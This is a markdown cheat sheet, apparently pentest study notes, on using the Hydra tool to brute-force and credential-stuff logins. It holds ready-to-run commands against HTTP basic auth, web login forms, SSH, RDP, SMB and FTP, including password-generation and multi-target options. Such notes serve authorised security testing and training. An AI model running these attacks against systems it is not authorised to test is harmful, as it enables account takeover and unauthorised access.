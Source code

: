 # **Basic Usage**

```bash
hydra [login_options] [password_options] [attack_options] [service_options]
```

| Parameter | Explanation | Usage Example |
| --- | --- | --- |
| `-l LOGIN` or `-L FILE` | Login options: Specify either a single username (`-l`) or a file containing a list of usernames (`-L`). | `hydra -l admin ...` or `hydra -L usernames.txt ...` |
| `-p PASS` or `-P FILE` | Password options: Provide either a single password (`-p`) or a file containing a list of passwords (`-P`). | `hydra -p password123 ...` or `hydra -P passwords.txt ...` |
| `-t TASKS` | Tasks: Define the number of parallel tasks (threads) to run, potentially speeding up the attack. | `hydra -t 4 ...` |
| `-f` | Fast mode: Stop the attack after the first successful login is found. | `hydra -f ...` |
| `-s PORT` | Port: Specify a non-default port for the target service. | `hydra -s 2222 ...` |
| `-v` or `-V` | Verbose output: Display detailed information about the attack's progress, including attempts and results. | `hydra -v ...` or `hydra -V ...` (for even more verbosity) |
| `service://server` | Target: Specify the service (e.g., `ssh`, `http`, `ftp`) and the target server's address or hostname. | `hydra ssh://192.168.1.100` |
| `/OPT` | Service-specific options: Provide any additional options required by the target service. | `hydra http-get://example.com/login.php -m "POST:user=^USER^&pass=^PASS^"` (for HTTP form-based authentication) |

# **Brute-Forcing HTTP Authentication**

```bash
hydra -L usernames.txt -P passwords.txt www.example.com http-get / -s 4324

-s : Specify port
```

This command try to use a Basic HTTP Auth

![image.png](../Images/hydra_image.png)
# **Brute-Forcing a Web Login Form**

## Example Code

```html
<form action="/login" method="post">
	<label for="username">Username:</label>
	<input type="text" id="username" name="username"><br><br>
	<label for="password">Password:</label><input type="password" id="password" name="password"><br><br>
	<input type="submit" value="Submit">
</form>
```

## Usage

```bash
hydra [options] target http-post-form "path:params:condition_string"
```

## Example 

```bash
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

## **Failure Condition**

The failure condition (`F=...`) is used to check for a specific string in the server's response that signals a failed login attempt. 

```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
```

## **Success Condition**

The success condition (`S=...`) is used to check for a specific string in the server's response that signals a success login attempt.

```bash
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"

#Hydra will now register the login as successful if it finds the word "Dashboard" 
#in the server’s response
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"
```

## **Constructing the params String**

```bash
/:username=^USER^&password=^PASS^:F=Invalid credentials

Hydra will dynamically replace placeholders (^USER^ and ^PASS^) 
```

# Other services

## SSH

```
hydra -L user.list -P password.list ssh://10.129.42.197
```

### **Targeting Multiple SSH Servers**

```bash
hydra -l root -p toor -M targets.txt ssh
```

## RDP

```
hydra -L user.list -P password.list rdp://10.129.42.197
```

### **Advanced RDP Brute-Forcing**

```powershell
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

Generate and test passwords ranging from 6 to 8 characters, using the specified character set.

## **SMB**

```
hydra -L user.list -P password.list smb://10.129.42.197
```

## **Testing Credentials on a Non-Standard Port**

```powershell
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
```

# Credential Stuffing

```
hydra -C user_pass.list ssh://10.129.42.197
```
